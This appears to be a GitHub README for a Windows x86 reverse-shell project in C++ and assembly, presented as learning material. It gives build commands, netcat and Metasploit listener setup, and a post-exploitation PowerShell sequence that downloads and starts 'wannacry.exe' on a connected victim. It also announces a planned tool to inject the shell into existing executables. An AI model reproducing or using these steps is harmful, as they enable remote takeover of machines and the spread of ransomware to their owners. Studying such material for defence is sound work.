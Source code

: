 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

Warning, this reverse shell is not portable, just for show example how does a reverse shell in x86 in assembly code, this method is really old

### Tree

* reverse_bind_cpp 
* reverse_bin_cpp_v2
  - try to catch ipv4 address of ethernet card
* Bind reverse written in object
* Reverse cpp ( reverse shell cpp )
* Reverse cpp written in object
* ASM Bind reverse shell
  - not terminated
* ASM v1 ( reverse shell asm )
  - Replace all address offsets of called functions
* ASM v2 ( reverse shell asm )
  - To do remote all TEB/PEB, remove all bytes null
  - Ligne 78 v2 : LoadLibraryA replace it by your own offset
  - Ligne 79 v2 : GetProcAddress replace it by your own offset
  - Ligne 193 v2: SOKADDR_IN set you own port and IP address
  
### Architecture

Win32 plateform

  - [x] XP 
  - [x] vista
  - [x] 7
  - [x] 10 - Windows Defender Detects it's bad for himself for assembly code 

### Soon

\[\*\] coding a lil program :
  * Open biary file exe
  * read PE
  * find EP
  * IAT import ws2_32.dll
  * Inject Reverse_shell
  * close binary file Exe
  

## :two: Compilation 

### Build ASM x86

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386 reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
### Build C++

Download Devcpp on windows plateform :

  - Project include library : **MinGW64/x86_64-w64-mingw32/lib32/libws2_32.lib**
  - Add **lib** directory to your project.
  - Build it.
  - execv.
  
## :three: Shell Connection 

### Reverse Tcp netcat

```
$netcat -v -l -p 4444
```

### Reverse Tcp msf

```
$ msfconsole
$ use exploit/multi/handler
$ show paylaods
$ set payloads generic/reverse_tcp
$ set RHOST [ip]
$ set LPORT [PORT]
$ exploit
```

### Reverse Bind Tcp netcat

```
$netcat -v victim_ip 4444
```
## :four: Example

### Win >= 7 Bind reverse shell \[ powershell.exe \]

<img src="https://zupimages.net/up/19/01/wq32.png">
 
After to be connected to the powershell, you can download and launch some file with this method :
 
```
[ powershell command ]
>dir env:\
> $url=http://192.168.0.2/wannacry.exe
> wget $url -outfile [ PATH ]
> cmd
> start File
```

### Reverse Tcp With CPP \[ cmd.exe \] 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp \[ cmd.exe \]

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


